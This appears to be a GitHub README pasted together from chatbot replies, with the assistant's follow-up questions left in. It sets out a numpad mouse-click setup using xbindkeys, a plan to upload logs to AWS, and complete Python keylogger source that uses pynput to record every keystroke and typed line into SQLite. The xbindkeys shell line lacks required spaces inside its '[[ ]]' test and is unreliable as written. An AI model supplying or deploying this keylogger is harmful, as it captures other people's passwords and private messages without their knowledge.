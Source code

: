 # [numlock-mouse](https://chatgpt.com/share/681e05a6-bb84-8011-ba20-9dbc7aa64f10)

[Mouse Movement Reference](https://pynput.readthedocs.io/en/latest/mouse.html#monitoring-the-mouse)
[Keyboard Movement Reference](https://pynput.readthedocs.io/en/latest/keyboard.html#monitoring-the-keyboard)

This software enables mouseclicks from the numpad on a keyboard when the numlock is not enabled

✅ Complete Proof-of-Concept (PoC)
Step 1: Install Dependencies

sudo apt update
sudo apt install xbindkeys xdotool

Step 2: Create Configuration File for xbindkeys

If it doesn't exist yet:

xbindkeys --defaults > ~/.xbindkeysrc

Step 3: Edit ~/.xbindkeysrc to Bind / to Left Click

Add this block to the end of your ~/.xbindkeysrc file:

# Send left click on '/' key (only when Num Lock is off)

"bash -c 'if [[$(xset q | grep "Num Lock" | awk \"{print \\$8}\") == \"off\"]]; then xdotool click 1; fi'"
KP_Divide

Explanation:

    KP_Divide is the key symbol for the numeric keypad /.

    xset q | grep "Num Lock" checks the Num Lock state.

    xdotool click 1 simulates a left click.

    The command only executes if Num Lock is off.

Step 4: Start xbindkeys

xbindkeys

To run it automatically at startup, you can add xbindkeys to your .xinitrc or desktop environment’s autostart applications.
Step 5: Optional: Make a Systemd Service (Headless Startup)

Create this file:

nano ~/.config/systemd/user/xbindkeys.service

Paste this content:

[Unit]
Description=Start xbindkeys

[Service]
ExecStart=/usr/bin/xbindkeys
Restart=on-failure

[Install]
WantedBy=default.target

Then enable it:

systemctl --user enable --now xbindkeys

Would you like to map this to a different key or make the mouse move too?

---

✅ AWS Future Plan

When ready, we will:

    Replace SQLite with Amazon RDS (MySQL or PostgreSQL) or Amazon DynamoDB

    Upload logs from local SQLite to Amazon S3 encrypted buckets using KMS

    Use IAM roles and Cognito if needed to secure uploads without exposing keys

I can prepare you a Docker + systemd + AWS-ready setup later.

Would you like me to help you:

    Encrypt your SQLite database itself?

    Add a systemd service now for persistent background operation?

    Add a CLI tool to decrypt specific date ranges or export to CSV?

Let me know your next step.

---

Keylogging Extension

Goals Recap

    Capture keystrokes in real-time with timestamps.

    Store both individual keystrokes and combined text strings for later analysis.

    Use a secure local database (SQLite for POC).

    Design modular code to allow easy connection to a free-tier AWS storage (like S3 or DynamoDB).

    Maintain real-time nature for data insertion and retrieval.

Solution Overview

    SQLite local database for secure, low-latency local storage.

    Tables:

        keystrokes: stores every key event with timestamp.

        text_strings: stores combined text strings (like words or lines) with timestamps.

    Modular design: Database operations separated into a class/module.

    Background thread to batch or handle text string formation while logging keystrokes in real-time.

    Prepared for easy AWS integration by abstracting DB write operations (can later replace or extend with AWS SDK calls).

```python

import os
import sqlite3
from datetime import datetime
from threading import Thread, Lock
from pynput import keyboard

# --- Configurable Database Path from environment variable ---
db_path = os.getenv("KEYLOGGER_DB_PATH", "keylogger.db")
os.makedirs(os.path.dirname(db_path), exist_ok=True) if os.path.dirname(db_path) else None

# --- Database Handling Class ---
class KeyLoggerDB:
    def __init__(self, db_file):
        self.conn = sqlite3.connect(db_file, check_same_thread=False)
        self.lock = Lock()
        self.create_tables()

    def create_tables(self):
        with self.lock:
            c = self.conn.cursor()
            c.execute('''
                CREATE TABLE IF NOT EXISTS keystrokes (
                    id INTEGER PRIMARY KEY AUTOINCREMENT,
                    key TEXT NOT NULL,
                    timestamp TEXT NOT NULL
                )
            ''')
            c.execute('''
                CREATE TABLE IF NOT EXISTS text_strings (
                    id INTEGER PRIMARY KEY AUTOINCREMENT,
                    text TEXT NOT NULL,
                    timestamp TEXT NOT NULL
                )
            ''')
            self.conn.commit()

    def insert_keystroke(self, key):
        with self.lock:
            timestamp = datetime.utcnow().isoformat()
            self.conn.execute('INSERT INTO keystrokes (key, timestamp) VALUES (?, ?)', (key, timestamp))
            self.conn.commit()

    def insert_text_string(self, text):
        with self.lock:
            timestamp = datetime.utcnow().isoformat()
            self.conn.execute('INSERT INTO text_strings (text, timestamp) VALUES (?, ?)', (text, timestamp))
            self.conn.commit()

    def close(self):
        self.conn.close()


# --- Text Buffer Manager for combined text strings ---
class TextBufferManager:
    def __init__(self, db):
        self.db = db
        self.buffer = []
        self.lock = Lock()

    def add_key(self, key):
        with self.lock:
            if key == "ENTER":
                # commit buffer as a string then clear
                if self.buffer:
                    combined = ''.join(self.buffer)
                    self.db.insert_text_string(combined)
                    self.buffer.clear()
            elif key == "BACKSPACE":
                if self.buffer:
                    self.buffer.pop()
            else:
                # Append normal characters
                self.buffer.append(key)

    def flush(self):
        with self.lock:
            if self.buffer:
                combined = ''.join(self.buffer)
                self.db.insert_text_string(combined)
                self.buffer.clear()


# --- Listener for keyboard events ---
def start_keylogger(db):
    buffer_manager = TextBufferManager(db)

    def on_press(key):
        try:
            if hasattr(key, 'char') and key.char is not None:
                k = key.char
            else:
                # Special keys
                k = key.name.upper() if hasattr(key, 'name') else str(key)
        except AttributeError:
            k = str(key)

        db.insert_keystroke(k)
        buffer_manager.add_key(k)

    def on_release(key):
        if key == keyboard.Key.esc:
            # Flush any buffered text before exit
            buffer_manager.flush()
            return False

    with keyboard.Listener(on_press=on_press, on_release=on_release) as listener:
        listener.join()


if __name__ == "__main__":
    db = KeyLoggerDB(db_path)
    print(f"Keylogger started. Press ESC to stop. Logging to {db_path}")
    try:
        start_keylogger(db)
    finally:
        db.close()
        print("Keylogger stopped and database closed.")
```

---

